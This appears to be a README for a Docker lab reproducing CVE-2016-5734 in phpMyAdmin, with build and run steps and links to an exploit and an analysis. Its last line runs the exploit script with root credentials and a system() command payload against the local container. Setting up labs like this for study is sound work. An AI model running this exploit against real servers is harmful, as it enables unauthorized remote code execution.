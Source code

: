 * exploit-db: `https://www.exploit-db.com/exploits/40185/`
* analysis: `http://larryxi.github.io/cve-2016-5734-analysis.html`
* build : ` sudo docker build -t="cve-2016-5734" .`
* run : `sudo docker run --name test -p 127.0.0.1:8788:80 -d cve-2016-5734`
* phpinfo : `http://127.0.0.1:8788/poc/index.php`
* phpmyadmin: `http://127.0.0.1:8788/phpmyadmin-RELEASE_4_4_15_6`
* exploit: `python 40185.py -u root -p 123456 http://127.0.0.1:8788/phpmyadmin-RELEASE_4_4_15_6 -d mysql -c "system('ls -lua');"`

